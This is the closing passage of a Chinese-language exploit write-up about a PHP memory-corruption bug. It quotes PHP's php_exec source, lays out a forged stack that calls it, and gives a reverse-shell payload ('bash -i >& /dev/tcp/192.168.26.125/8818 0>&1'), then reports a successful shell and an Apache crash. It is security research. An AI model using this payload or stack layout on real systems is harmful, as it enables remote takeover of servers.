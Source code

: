 ```text
        } else { /* should return NULL, but for BC we return "" */
            RETVAL_EMPTY_STRING();
        }
    } else {
        while((bufl = php_stream_read(stream, buf, EXEC_INPUT_BUF)) > 0) {
            PHPWRITE(buf, bufl);
        }
    }

    pclose_return = php_stream_close(stream);
    efree(buf);

done:
#if PHP_SIGCHILD
    if (sig_handler) {
        signal(SIGCHLD, sig_handler);
    }
#endif
    if (d) {
        efree(d);
    }
    return pclose_return;
err:
    pclose_return = -1;
    goto done;
}
```

四个参数，前面俩好办，后面俩不想深究，直接看下源码，发现，后面俩参数只有当 type=2 时候才会用到，那就直接用type＝0，用`exec`好了。

构造栈：

* exec\_type                \x00\x00\x00\x00 
* php\_code\_addr            jmp\_buf的地址＋44
* exec\_type            
* exec\_type
* php\_code                 bash -c 'bash -i &gt;& /dev/tcp/192.168.26.125/8818 0&gt;&1'\x00

exploit！如下：

成功反弹shell。

其实后面还有点问题，因为我把shell exit之后，php继续往下执行，结果apache crash掉了。。。。 crash时gdb状态如图： 

也没继续往下看，其实已经差不多了，也就是调一下的事儿。

## 后记

如果大家有更好的思路，或者对原作的利用方式有更深刻的理解，欢迎与我讨论 :-\)

